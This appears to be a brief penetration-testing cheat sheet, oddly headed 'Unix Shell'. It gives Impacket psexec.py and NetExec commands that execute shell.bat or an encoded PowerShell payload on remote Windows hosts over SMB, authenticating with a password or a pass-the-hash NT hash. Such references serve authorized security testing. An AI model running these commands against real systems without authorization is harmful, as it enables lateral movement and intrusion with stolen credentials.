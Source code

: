 # Unix Shell

## 01 - Impacket

- Authenticate via username and password

`$ psexec.py <domain_name>/<username>:<password>@<IP> -c shell.bat`

- Authenticate via Pass The Hash

`$ psexec.py <domain_name>/<username>@<IP> -hashes <LM>:<NT> -c shell.bat`

## 02 - NetExec

- Authenticate via username and password

```
$ netexec smb <IP> -u <username> -p <password> [-d <domain_name> | --local-auth] -x shell.bat

$ netexec smb <IP> -u <username> -p <password> [-d <domain_name> | --local-auth] -x "powershell -E <base64_payload>"
```

- Authenticate via Pass The Hash

```
$ netexec smb <IP> -u <username> -H <nt_hash> [-d <domain_name> | --local-auth] -x shell.bat

$ netexec smb <IP> -u <username> -H <NT> [-d <domain_name> | --local-auth] -x "powershell -E <base64_payload>"
```